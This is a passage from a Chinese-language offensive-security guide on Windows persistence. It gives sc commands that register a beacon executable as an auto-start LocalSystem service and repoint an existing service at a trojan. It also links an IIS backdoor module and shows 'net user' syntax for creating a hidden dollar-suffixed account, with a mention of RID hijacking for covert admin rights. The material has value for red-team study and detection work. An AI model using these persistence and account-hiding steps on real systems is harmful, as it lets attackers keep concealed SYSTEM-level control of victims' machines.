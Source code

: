 创建完后查看服务发现是默认以 LocalSystem 账户登录的。唯一的缺陷是描述是空的显突兀。

```bash
C:\Users\123>SC qc ServicePrivilegeEscalation
[SC] QueryServiceConfig 成功

SERVICE_NAME: ServicePrivilegeEscalation
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Users\123\Desktop\beaconsrv.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Service Persistence
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

2.修改先有服务

找一个已禁用的服务，直接修改 binpath= 现有服务的可执行文件路径指向我们的木马，修改启动模式 start= 让其自启动，修改启动服务的用户 obj= 为 SYSTEM。

```bash
SC CONFIG ServicePrivilegeEscalation binpath= "\"E:\program files\sub dir\program name.exe\"" start= auto obj= "LocalSystem"
```

3.恢复原状

在不需要维持的时候，停止并删除服务。或者恢复原有配置。

```bash
sc stop ServicePrivilegeEscalation
sc delete ServicePrivilegeEscalation
```

#### 2.6.2 IIS⚒️

[https://github.com/0x09AL/IIS-Raid](https://github.com/0x09AL/IIS-Raid)

#### 2.6.3 SQL Server⚒️

### 2.7 Create Account

本小节来看看如何既达到隐藏一个通过 RID 劫持的账户，这样即可以隐藏账户又能获得管理员 Administrator 权限，不过 RID 劫持在实战中利用，默认配置下需要 SYSTEM 权限才能操作。

#### 2.7.1 Hidden Account

国内也叫影子账户，这个技术很古早，单拎出来也没多大用。

创建普通用户在用户名后面添加 Dollar 符号。

```bash
net user <account name>$ <password> /add
```

创建的 test 用户发现使用 net user 命令无法查询到。
